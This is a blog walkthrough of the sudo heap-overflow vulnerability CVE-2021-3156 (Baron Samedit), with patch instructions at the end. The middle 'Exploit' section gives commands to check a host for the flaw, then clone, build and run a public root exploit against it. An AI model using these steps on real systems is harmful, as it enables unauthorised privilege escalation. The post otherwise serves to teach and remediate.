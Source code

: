 ```yaml
---

title: CVE-2021-3156 | Baron Samedit
date: 2021-02-12 16:00:00 +5:30
description: This is a PoC of the recent sudo vulnerability released by Qualys
image: /images/cover.jpg
categories: [CTFs & Walkthroughs, CVEs]
tags: [sudo, cve, 2021, baron samedit, qualys] # add tag

---
```


# CVE-2021-3156 | Baron Samedit
---
On January 26, 2021,  Qualys released a [blog post](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)  detailing a new vulnerability in the Unix `sudo` program.

Specifically, this was a heap buffer overflow allowing any user to escalate privileges to root -- no misconfigurations required. This exploit works with the default settings, for any user regardless of sudo permissions. The vulnerability has been patched, but affects any unpatched version of the sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1, meaning that it's been around for the last ten years.  

The program was very quickly patched, so this exploit will no longer work on up-to-date targets; however, it is still incredibly powerful.

# PoC
---
This PoC was obtained from a researcher named [lockedbyte](https://twitter.com/lockedbyte), uploaded to a git repo [here](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156).

## Enumerate
---
First, to test if a system is vulnerable or not, login to the system as a non-root user.

- Run command `sudoedit -s /`

- If the system is vulnerable, it will respond with an error that starts with `sudoedit:`

- If the system is patched, it will respond with an error that starts with `usage:`

However, if you're not in the sudoers file to begin with, then this method will not work.

Alternatively, you can just run the command `sudo --version` and see if the version is in the range with the ones in the blog post. (1.8.2-1.8.31p2 and 1.9.0-1.9.5p1)

![](/images/cve-baron-version.PNG)

## Exploit
---
Next, once you have confirmed the machine is vulnerable, exploitation is very easy.

- Simply clone the git repo with the command, `git clone https://github.com/blasty/CVE-2021-3156.git`
 ![](/images/cve-baron-clone.PNG)
- Now run the `make` command
 ![](/images/cve-baron-make.PNG)
- Run the `./sudo-hax-me-a-sandwich` with no arguments to display the target list.
 ![](/images/cve-baron-dotslash.PNG)
- Match your machine with the correct target.
	- You can do this by running the command `cat /etc/os-release`
	 ![](/images/cve-baron-osver.PNG)
- Finally, just run the command `./sudo-hax-me-a-sandwich <target_number>`
 ![](/images/cve-baron-exploit.PNG)

[Video of exploit](https://youtu.be/XxarHSsOhfE)


And just like that, this machine is fully compromised.

# Remediate
---
At this point, almost all package repos have the updated sudo binary ready for update. For Debian distros, simply:
- sudo apt update
- sudo apt install sudo

Or the manual way:
- wget https://www.sudo.ws/dist/sudo-1.9.5p2.tar.gz 
- tar xzvf sudo-1.9.5p2.tar.gz  
- cd sudo-1.9.5p2  
- ./configure  
- make && sudo make install  
- bash -c "sudo --version"
